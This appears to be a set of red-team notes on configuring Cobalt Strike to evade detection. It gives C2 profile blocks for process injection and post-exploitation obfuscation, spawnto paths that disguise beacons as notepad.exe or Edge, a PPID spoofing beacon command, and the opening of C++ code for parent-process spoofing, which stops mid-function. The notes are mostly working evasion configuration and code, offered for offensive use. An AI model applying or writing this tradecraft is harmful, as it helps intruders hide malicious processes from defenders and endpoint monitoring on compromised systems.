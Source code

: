 add this to the C2 profile as well:

```
process-inject {
    set startrwx "false";
    set userwx "false";
    set bof_reuse_memory "false";
}
```


### Fork an Run Memory allocations

add this to C2 profile:

```
post-ex {
    set obfuscate "true";
    set cleanup "true";
}
```

### SpawnTo

```
post-ex {
    set spawnto_x86 "%windir%\\syswow64\\notepad.exe";
    set spawnto_x64 "%windir%\\sysnative\\notepad.exe";
}
```



### PPID Spoofing

Do it in Cobal Strike beacon with:
```
ppid <PID>
```

stronger to combine it with spawnto:
```
spawnto x64 "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe"
```

Code for it:
```
#include <Windows.h>
#include <iostream>

int main()
{
    const DWORD attributeCount = 1;

    LPSTARTUPINFOEXW si = new STARTUPINFOEXW();
    si->StartupInfo.cb = sizeof(STARTUPINFOEXW);

    SIZE_T lpSize = 0;

    // call once to get lpSize
    InitializeProcThreadAttributeList(
        NULL,
        attributeCount,
        0,
        &lpSize);

    // allocate the memory
    si->lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)malloc(lpSize);

```